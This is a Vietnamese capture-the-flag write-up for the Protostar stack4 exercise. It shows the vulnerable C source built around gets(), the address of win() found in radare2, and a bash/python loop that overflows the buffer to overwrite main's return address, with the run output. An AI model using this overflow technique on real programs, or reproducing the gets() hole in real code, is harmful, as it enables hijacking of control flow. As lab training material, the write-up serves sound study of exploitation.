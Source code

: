 # **stack4**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

New knowledge:
- 0

## Target
Ghi đè return address khi kết thúc hàm main thành địa chỉ của hàm win()

## Vulnerability
gets()

## Recon

```

```

## Exploit
- Địa chỉ hàm win():
```
:> afl~win
0x080483f4    1 20           sym.win
```

- Disassembly main:

<img src="pictures/main_disas.png">

- Phân tích main:

<img src="pictures/disas_analysis.png">

- Phân tích stack:

<img src="pictures/stack_analysis.png">

=> viết script để chạy chương trình __16 = 2^4__ lần với input = 'a' * (68 + [0-15]) + '\xf4\x83\x04\x08':
```
user@protostar:/opt/protostar/bin$ for i in {0..15}; do echo "$i";python -c "print('a'*(68+$i) + '\xf4\x83\x04\x08')" | ./stack4; done
0
1
2
3
4
Segmentation fault
5
Trace/breakpoint trap
6
Segmentation fault
7
Segmentation fault
8
code flow successfully changed
Segmentation fault
9
Segmentation fault
10
Segmentation fault
11
Segmentation fault
12
Segmentation fault
13
Segmentation fault
14
Segmentation fault
15
Segmentation fault
user@protostar:/opt/protostar/bin$ 
```
- 4 lần chạy đầu không có lỗi do return address chưa bị ghi đè.
- segmentation fault: do return address đã bị ghi đè đến địa chỉ không hợp lệ (segmentation fault ở case successfully do chạy hàm win() xong không có return address).
- lần chạy thứ 4: lỗi do đã bắt đầu ghi đè lên return address (\x00 để terminate string ghi đè vào byte đầu tiên)
- lần chạy thứ 5: bắt đầu ghi đè byte đầu tiên bởi địa chỉ hàm win().
- lần chạy thứ 8: ghi đè đầy đủ địa chỉ của hàm win() lên return address => code flow succcessfully changed. 

## Problem
- Khi chạy script trên ở máy protostar thì không có vấn đề, tuy nhiên khi chạy ở kali linux thì bị lỗi do \x80 được chuyển thãnh \x80\xc2 và tương tự các hexa lớn hơn \x80. Do \x7f = 127 là tối đa của ascii.
- script in kali linux:
```
for i in {0..15}
do
        echo $i
        python -c "import sys; sys.stdout.buffer.write(b'\x61'*(68+$i) + b'\xf4\x83\x04\x08')" | ./stack4
done
```

# References
- How to type in hex input into radare2 debug mode: https://reverseengineering.stackexchange.com/questions/21098/how-do-i-type-in-hex-input-into-radare2-debug-mode
- \x80 problem: https://bugs.python.org/issue38357